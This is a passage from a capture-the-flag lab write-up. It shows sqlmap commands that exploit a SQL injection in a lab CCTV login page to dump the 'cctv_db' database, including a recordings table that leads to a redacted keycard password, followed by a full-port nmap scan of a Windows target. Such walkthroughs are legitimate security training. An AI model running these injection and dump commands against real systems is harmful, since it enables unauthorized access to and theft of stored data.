 But after bypassing the login and even logging in as the other users we discovered in the logs, we don't find the keycard. However, we can try using `sqlmap` to dump the database with this `SQL Injection` as follows:

```console
$ sqlmap -u 'http://10.10.143.134:8080/login.php' --method POST --data 'username=byte&password=&ok=Submit' --level 5 --risk 3 --threads 10 -p username --batch --dbs
...
available databases [2]:
[*] cctv_db
[*] information_schema
...
```
{: .wrap }

We can see the database for the web application as `cctv_db` and continue with dumping it.

```console
$ sqlmap -u 'http://10.10.143.134:8080/login.php' --method POST --data 'username=byte&password=&ok=Submit' --level 5 --risk 3 --threads 10 -p username --batch -D cctv_db --dump
...
Database: cctv_db
Table: recordings
[53 entries]
+----+--------+---------------------+---------+---------------------+
| id | cam_id | path                | minutes | date_recording      |
+----+--------+---------------------+---------+---------------------+
| 1  | 11     | /re[REDACTED]ed.mp4 | 5       | 2024-12-10 11:27:28 |
| 9  | 5      | /re[REDACTED]ed.mp4 | 10      | 2024-12-05 22:38:35 |
...
```
{: .wrap }

From the output of the `recordings` table, we can see the path for the deleted recordings is set as `/re[REDACTED]ed.mp4`. Visiting this video on the CCTV web server, a couple of seconds in, we can find the keycard with the password on it being `on[REDACTED]er`.

![Web 8080 Keycard](web_8080_keycard.webp){: width="1200" height="600" }

## Side Quest

Since we have the password on the keycard, we can move on to the side quest. As usual, we start by going to port `21337` on the target to disable the firewall.

![Web 21337 Index](web_21337_index.webp){: width="1200" height="600" }

### Initial Enumeration

Now that the firewall is disabled, we can start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.39.152
Nmap scan report for 10.10.39.152
Host is up (0.098s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Krampus Festival Login
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
```